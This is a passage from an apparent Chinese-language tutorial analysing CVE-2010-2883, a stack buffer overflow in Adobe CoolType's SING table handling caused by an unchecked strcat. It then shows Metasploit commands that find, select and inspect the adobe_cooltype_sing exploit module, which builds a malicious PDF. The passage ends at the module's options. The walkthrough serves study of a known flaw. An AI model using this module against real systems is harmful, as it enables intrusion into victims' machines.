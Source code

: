 它首先会读取 SING 表，之后将 SING 表中 0x10 偏移处(即 UniqueName 字段)通过调用 strcat 函数直接拼接到 Destination 中，而 strcat 函数会将参数 src 字符串复制到参数 dest 所指的字符串尾部，src 字符串的拷贝从第一个字符开始，直到遇到 "\x00" 时结束。这一函数调用过程没有检验拼接的字符串的长度，即未考虑拼接后的字符串超度是否会超出 dest 字符串长度，故存在栈溢出漏洞，攻击者可通过在 TTF 文件的 SING 表的 uniqueName 字段处（0x10 偏移位置）填入任意长度的字符串实施栈溢出攻击

## 漏洞利用

使用 MSF 搜索该漏洞的 exp

```sh
msfconsole
msf6 > search cve-2010-2883
```

搜索结果

```plaintext
Matching Modules
================

   #  Name                                            Disclosure Date  Rank   Check  Description
   -  ----                                            ---------------  ----   -----  -----------
   0  exploit/windows/browser/adobe_cooltype_sing     2010-09-07       great  No     Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow
   1  exploit/windows/fileformat/adobe_cooltype_sing  2010-09-07       great  No     Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/fileformat/adobe_cooltype_sing
```

调用该模块并查看模块详情

```sh
msf6 > use exploit/windows/fileformat/adobe_cooltype_sing
msf6 exploit(windows/fileformat/adobe_cooltype_sing) > info
```

模块详情信息

```plaintext
       Name: Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow
     Module: exploit/windows/fileformat/adobe_cooltype_sing
   Platform: Windows
       Arch:
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2010-09-07

Provided by:
  Unknown
  sn0wfl0w
  jduck <jduck@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  msf.pdf          yes       The file name.

```